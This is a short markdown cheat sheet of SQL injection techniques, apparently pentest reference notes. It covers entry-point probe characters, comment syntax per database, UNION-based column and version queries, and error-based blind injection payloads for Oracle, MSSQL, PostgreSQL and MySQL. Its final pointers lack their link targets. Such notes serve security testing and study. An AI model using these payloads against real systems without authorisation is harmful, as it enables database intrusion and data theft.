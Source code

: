 # SQLi

## Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

## Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get database versions**:
```sql
--MySQL, Microsoft
SELECT @@version
--PostgreSQL
SELECT version()
--Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance
```


## Blind SQLi
If you cant see the output of your query then try these （￣︶￣）↗　

#### Check your query triggers an error response from the application
*These are not copy-pastable , you'll need to modify them to fit your already-working injection*
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

**If it does not seem to return specific results depending on your injection...**
- ...and it does not seem to be modifying the response of the application in any way, check out 
- ...and your query triggers a boolean response from the application (i.e. 200/500, or a generic success/fail message in the page), check out